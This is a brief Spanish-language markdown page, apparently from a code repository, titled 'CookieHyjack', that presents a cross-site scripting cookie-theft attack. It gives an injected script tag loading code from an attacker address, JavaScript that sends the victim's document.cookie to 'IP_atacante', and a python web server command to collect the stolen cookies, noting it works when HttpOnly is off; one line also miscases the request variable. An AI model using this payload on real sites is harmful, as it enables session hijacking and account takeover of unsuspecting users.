

# CookieHyjack

Este script básico funciona siempre y cuando la cookie del usuario victima tenga en false la propiedad HttpOnly&#x20;

```
// entrada de la web, hace un llamado a nuestro servidor donde hay alojado el fichero que recoge la cookie 
<script src="IP_atacante/fichero.js"></script>   
```

```
// fichero para recoger la cookie del usuario 
var request = new XMLHttpRequest();
Request.open('GET', 'http://IP_atacante/?cookie=' + document.cookie);
request.send();
```

```
// servidor donde recibimos la cookie
python3 -m http.server 80
```

<div align="left">

<figure><figcaption></figcaption></figure>

</div>
